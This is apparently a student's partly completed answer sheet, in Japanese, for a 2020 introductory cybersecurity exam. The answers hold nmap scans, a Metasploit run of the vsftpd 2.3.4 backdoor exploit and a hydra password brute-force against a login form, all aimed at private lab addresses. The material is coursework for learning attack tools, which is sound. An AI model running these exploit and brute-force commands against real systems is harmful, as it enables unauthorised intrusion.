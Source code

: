 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
# nc -lvp 5200

```
### クライアント側コマンド

```sh
# nc 192.168.33.10 5200

```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# nmap -sP 192.168.33.0/24

```

### 2. version scan

```sh
# nmap 192.168.33.1/24

```

## 問4 [Metasploit Framework]

```sh
# msfconsole
# search vsftp
# use vsftpd_234_backdoor
# show options
# set RHOSTS 192.168.33.5
# show optionsで変わったか確認
# exploit

```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# hydra -L user.list -P passwd.list -s 8180 192.168.33.5 http-form-post "/admin/j_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password"
```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
30点

```

## 問9 [講義の感想]

```md
仮想環境構築、ncを使ったチャット、ポートスキャン、Hydra、wiresharkなど
正直難しいし覚えるのが多くて大変だった。１日でも休むと授業について生きなくなることがわかった。休まないようにしたい

```
